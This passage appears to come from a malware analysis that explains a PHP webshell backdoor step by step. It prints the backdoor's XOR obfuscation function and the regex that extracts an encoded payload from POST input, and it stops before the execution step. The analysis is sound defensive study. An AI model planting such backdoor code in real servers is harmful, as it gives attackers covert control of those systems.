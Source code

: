 - **`eval()`**: The entire backdoor is wrapped inside an `eval()` function, which interprets and executes the string as PHP code. This makes it hard to spot during static analysis since the code is executed dynamically.
    
- **Variables**:
    - `$k`: This is a key used later for XOR encryption.
    - `$kh` and `$kf`: These are markers that define a "start" and "end" pattern in the HTTP request. They're used to extract the payload from the request.
    - `$p`: This is a string used during the final output, essentially a prefix in the response.

2. The `x()` Function: XOR Encryption/Decryption

```php
function x($t, $k) {
    $c = strlen($k);
    $l = strlen($t);
    $o = "";
    for ($i = 0; $i < $l;) {
        for ($j = 0; ($j < $c && $i < $l); $j++, $i++) {
            $o .= $t[$i] ^ $k[$j];
        }
    }
    return $o;
}
```

- **Purpose**: The `x()` function implements a simple XOR encryption or decryption mechanism. This is often used to obfuscate the payload.
    
- **How it works**:
    - `$t`: This is the input string (likely the command or data sent by the attacker).
    - `$k`: This is the key used to XOR the input.
    - The loop runs over the length of the input string `$t` and XORs each character with the corresponding character from the key `$k`. If the key is shorter than the input, it wraps around using modulo.
	
- **Output**: The function returns the XORed result, which can be used for either encryption or decryption, depending on whether it's applied to plain text or ciphertext.

3. Extracting the Payload

```php
if (@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1) {
```

- **`preg_match()`**: This regular expression searches the input received via `php://input` (which contains the raw POST request body) for data between the `$kh` (start marker) and `$kf` (end marker).
    - `(.+)`: This captures any data between these markers.
    - **Example**: If the request body contains data like `b6e7a529b6c2<encoded_payload>d598a771749b`, it extracts `<encoded_payload>`.
	
- **`@`**: The `@` operator suppresses any errors or warnings, making the backdoor harder to detect if something goes wrong (like no input being sent).

4. Decoding and Executing the Payload
